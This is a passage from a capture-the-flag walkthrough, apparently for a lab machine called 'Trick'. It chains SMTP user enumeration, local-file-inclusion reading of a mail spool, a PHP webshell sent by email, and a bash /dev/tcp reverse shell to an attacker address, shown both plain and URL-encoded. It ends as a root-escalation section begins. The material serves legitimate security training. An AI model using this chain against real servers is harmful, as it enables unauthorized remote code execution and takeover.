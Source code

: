 ```sh
> telnet 10.10.11.166 25
VRFY michael
220 debian.localdomain ESMTP Postfix (Debian/GNU)
252 2.0.0 michael
VRFY xdddd
550 5.1.1 <xdddd>: Recipient address rejected: User unknown in local recipient table
```

As we can see, user michael indeed exists. Now we can send test email
(it should be saved in /var/mail/)

```sh
swaks --to michael --from xkali \
      --header "Subject: Testing" \
      --body "ignore me" \
      --server 10.10.11.166
```

Now, if we enter following url, we can read the email we just sent:

```
http://preprod-marketing.trick.htb/index.php?page=....//....//....//var/mail/michael
```

Now that we confirmed that we can send and read files, we can send php code
inside an email, that should execute when read via url.

Let's send simple webshell:

```sh
swaks --to michael --from xkali \ 
      --header "Subject: Testing" \
      --body '<?php system($_REQUEST["cmd"]); ?>' \
      --server 10.10.11.166
```

We can test it by:

```
...SNIP... ?page=....//....//....//var/mail/michael?cmd=id
```

Since on this server messages are deleted (or moved) every two minutes,
we need to run reverse shell from our webshell:

```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/12345 <&1'
```

URL encoded:

```
bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.10.14.12%2F12345%20%3C%261%27
```

# Shell as root

We can see that michael can restart fail2ban as root:
